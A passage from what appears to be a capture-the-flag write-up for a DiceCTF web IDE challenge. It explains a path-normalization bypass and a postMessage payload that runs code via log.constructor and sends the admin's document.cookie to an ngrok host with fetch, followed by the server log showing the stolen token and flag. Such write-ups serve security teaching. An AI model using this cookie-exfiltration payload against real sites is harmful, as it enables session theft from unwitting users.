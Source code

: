 However, we now have a couple more issues to fix.  The browser itself will normalize URLs, and we now have the sandbox page, but if you'll notice, it now has the `x-frame-options: DENY` header.  We can get around the browser normalization by adding in a `%2f` to the path, and we can use `window.open` instead of an iframe.

## Final Payload

The final payload looks like the following:

```html
<script>
  window.onload = () => {
    let w = window.open("https://web-ide.dicec.tf/ide/..%2f/sandbox.html");
    setTimeout(() => {
      w.postMessage(`log.constructor('fetch("https://a94c78fa193e.ngrok.io/b64/" + btoa(document.cookie));')()`, '*');
    }, 1000);
  };
</script>
```

We send the admin a link to this file, which is hosted via ngrok on our local server.  If everything goes to plan, we should get a hit on our local server, and on my [tools server](https://github.com/zoeyg/sec/blob/master/tools/simple-http-server.js) the `/b64/:contents` route decodes contents
and logs it to stdout:

```
22:09:14: GET /b64/dG9rZW49ZGljZXtjMHVsZG43X2YxbmRfNF9iNGNrcjBueW1fZjByXzFkZX0=
        Host: b9be14aa2cf4.ngrok.io
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.0 Safari/537.36
        Accept: */*
        Origin: https://web-ide.dicec.tf
        Sec-Fetch-Site: cross-site
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://web-ide.dicec.tf/
        Accept-Encoding: gzip, deflate, br
        X-Forwarded-Proto: https
        X-Forwarded-For: 2600:1900:2000:72:400::b


token=dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}
```
